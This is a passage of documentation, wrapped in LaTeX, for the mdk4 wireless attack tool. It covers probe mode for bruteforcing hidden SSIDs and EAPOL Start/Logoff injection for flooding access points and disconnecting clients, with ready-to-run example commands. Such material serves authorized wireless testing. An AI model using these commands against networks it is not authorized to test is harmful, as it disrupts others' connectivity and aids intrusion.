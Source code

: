 \documentclass[11pt,a4paper]{article}
\begin{document}
\textbf{Basic Usage}:
\begin{lstlisting}[language=bash]
mdk4 wlan0mon p
\end{lstlisting}

\textbf{Common Options}:
\begin{lstlisting}[language=bash]
-e <SSID>          \# Target specific SSID
-f <filename>      \# Read SSIDs from file for bruteforcing
-t <MAC>           \# Target specific AP by BSSID
-s <pps>           \# Set speed in packets per second
-b <character\_set> \# Use custom character set for bruteforce
\end{lstlisting}

\textbf{Examples}:
\begin{lstlisting}[language=bash]
\# Probe for hidden networks with wordlist
mdk4 wlan0mon p -f common\_ssids.txt

\# Probe specific AP
mdk4 wlan0mon p -t 00:11:22:33:44:55

\# Test if specific SSID exists
mdk4 wlan0mon p -e "HiddenNetwork"

\# High-speed probing
mdk4 wlan0mon p -f wordlist.txt -s 300
\end{lstlisting}

\textbf{Use Cases}:
\item Discovering hidden networks
\item Testing probe request handling
\item Verifying SSID cloaking implementations
\item Network reconnaissance

---

\#\#\# Mode e - EAPOL Start/Logoff Packet Injection

\textbf{Purpose}: Attack WPA/WPA2 authentication process.

\textbf{How it Works}: Floods APs with EAPOL Start frames to exhaust resources, or sends EAPOL Logoff messages to disconnect authenticated clients.

\textbf{Basic Usage}:
\begin{lstlisting}[language=bash]
mdk4 wlan0mon e
\end{lstlisting}

\textbf{Common Options}:
\begin{lstlisting}[language=bash]
-t <BSSID>         \# Target specific AP
-s <pps>           \# Set packet speed
-l                 \# Use EAPOL Logoff instead of Start
\end{lstlisting}

\textbf{Examples}:
\begin{lstlisting}[language=bash]
\# Flood AP with EAPOL Start frames
mdk4 wlan0mon e -t 00:11:22:33:44:55

\# Send EAPOL Logoff to disconnect clients
mdk4 wlan0mon e -t 00:11:22:33:44:55 -l

\# High-speed EAPOL flood
mdk4 wlan0mon e -s 200
\end{lstlisting}
\end{document}
